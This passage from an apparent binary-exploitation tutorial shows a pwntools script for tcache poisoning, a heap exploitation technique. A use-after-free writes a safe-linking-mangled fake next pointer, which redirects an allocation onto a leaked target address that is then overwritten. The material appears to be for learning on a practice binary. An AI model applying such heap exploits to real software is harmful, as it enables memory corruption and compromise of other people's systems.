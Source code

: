 ```python
		sla(b"index: ", str(index).encode())

	def scanf(self, index:int, data:bytes):
		sla(self.c, b'2')
		sla(b"index: ", str(index).encode())
		sla(b"data: ", data)

	def check(self):
		sla(self.c, b'4')
		x = rl().rstrip(b"\r\n")
		log.info(f"Target Holds: '{x.decode()}'")


def exploit():
	##################################################################### 
	######################## EXPLOIT CODE ###############################
	#####################################################################
	size = 0x10
	metadata = flat(
		0x20
	)
	log.info(f"Metadata: {metadata} | len {len(metadata)}")
	sla(b"username: ", metadata)
	ru(b"target: ")
	target = int(rl(), 16)
	print_leak("target", target)

	t = Tcache()
	a = t.malloc(size)
	b = t.malloc(size)

	fake_next_ptr = ((target ) ^ (b >> 12))
	t.free(0)
	t.free(1)

	log.info("Use After Free on chunk 1")
	t.scanf(1, p64(fake_next_ptr))
	c = t.malloc(size)
	d = t.malloc(size)
	t.scanf(3, b"pwned")
	t.check()
	
```


We we run the code.

![Tcache bin](/assets/images/pwn/tcache/result.png)
